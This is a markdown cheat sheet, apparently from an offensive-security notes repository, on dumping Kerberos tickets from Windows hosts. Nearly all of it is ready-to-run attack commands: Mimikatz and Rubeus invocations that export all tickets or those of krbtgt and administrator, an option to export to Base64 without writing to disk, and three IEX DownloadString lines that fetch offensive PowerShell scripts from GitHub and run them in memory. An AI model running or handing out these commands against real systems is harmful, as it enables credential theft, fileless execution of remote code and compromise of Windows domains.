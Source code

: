 # Kerberos ticket acquisition

## Requirements:

### Unprivileged

Can extract Kerberos tickets for the current user context

### Privileged (Elevated)

Can extract ALL Kerberos tickets on the given system

## Tools

### 1) Mimikatz

##### Export to file methods

##### Export tickets (Preferred Method (More Accurate))

    Mimikatz.exe "token::elevate" "sekurlsa::tickets /export"

##### Alternative Method

    Mimikatz.exe "token::elevate" "kerberos::list /export"

### 2) Invoke-Mimikatz

##### Load into memory

    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/test/data/module_source/credentials/Invoke-Mimikatz.ps1')

##### Export to file methods

##### Export tickets (Preferred Method (More Accurate))

    Invoke-Mimikatz -Command '"token::elevate "sekurlsa::tickets /export"'

##### Alternative Method

    Invoke-Mimikatz -Command '""token::elevate" "kerberos::list /export"'

##### Export to Base64 without touching disk

    Invoke-Mimikatz -Command '"token::elevate" "standard::base64 /out:true" "sekurlsa::tickets /export"'

### 3) Rubeus

##### Dump All

    .\Rubeus.exe dump /nowrap

##### Dump Specified tickets that match a service

    .\Rubeus.exe dump /service:krbtgt /nowrap
    .\Rubeus.exe dump /service:HTTP /nowrap

# Dump tickets for specified users

    .\Rubeus.exe dump /user:administrator /nowrap

##### Both

    .\Rubeus.exe dump /service:krbtgt /user:administrator /nowrap

### 4) Invoke-Rubeus

##### Load into memory

    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')

##### Dump All

    Invoke-Rubeus -Command "dump /nowrap"

##### Dump Specified tickets that match a service

    Invoke-Rubeus -Command "dump /service:krbtgt /nowrap"
    Invoke-Rubeus -Command "dump /service:HTTP /nowrap"

##### Dump tickets for specified users

    Invoke-Rubeus -Command "dump /user:administrator /nowrap"

##### Both

    Invoke-Rubeus -Command "dump /service:krbtgt /user:administrator /nowrap"

### 5) PowerShellKerberos

##### Load into memory and dump

    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/MzHmO/PowershellKerberos/main/dumper.ps1')
